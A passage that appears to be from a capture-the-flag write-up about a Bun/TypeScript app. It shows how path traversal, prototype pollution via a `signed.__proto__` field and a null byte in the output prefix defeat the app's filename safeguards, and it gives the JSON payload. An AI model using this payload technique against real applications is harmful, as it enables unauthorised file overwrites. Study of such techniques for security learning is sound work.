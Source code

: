 Referring to the source code, now that we can modify the `signedData.outPrefix` we can exploit a path traversal vulnerability since `../` is valid within the path. However, the following line of code appends a random hex string and the `.yaml` file extension to the end of our prefix, meaning we can't overwrite anything interesting.

```ts
const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
```

This `outputFile` is then used to create a `BunFile` object in `convertJsonToYaml` as shown below.

```ts
const convertJsonToYaml = (data: any, outputFileString: string): boolean => {

  const outputFile = Bun.file(`${OUTPUT_YAML_FOLDER}/${outputFileString}`);
  // Prevent accidental overwriting of app files
  if (existsSync(outputFile) || checkIfContainsBannedString(outputFileString)) {
    return false
  }

  try {
    const yamlData = stringify(data);
    Bun.write(outputFile, yamlData);
    return true;
  } catch (error) {
    console.error(error)
    return false;
  }
};
```

So a funny bug about files in `bun`, if you can inject **null bytes** into the file path then **`bun` would truncate the everything after the null byte**, because `bun` is built on type of `zig` programming language where strings a terminated by null bytes (same as C).

So now our following payload would remove the pesky hex and `.yaml` file extension after our prefix.

```json
{
    "data": {
        "signed.name": "jeff",
        "signed.animalType": "emu",
        "signed.age": 12,
        "signed.crime": "assault",
        "signed.description": "clotheslined someone with their neck",
        "signed.start": "2024-03-02T10:45:01Z",
        "signed.release": "2054-03-02T10:45:01Z",
        "signed.__proto__": {
            "outputPrefix": "someotherprefix\u0000"
        }
    },
    "signature": "5c9396d88b7765d1c69dd949adfcc1f82ed766cbf534c16297eed346a4b453f5"
}
```
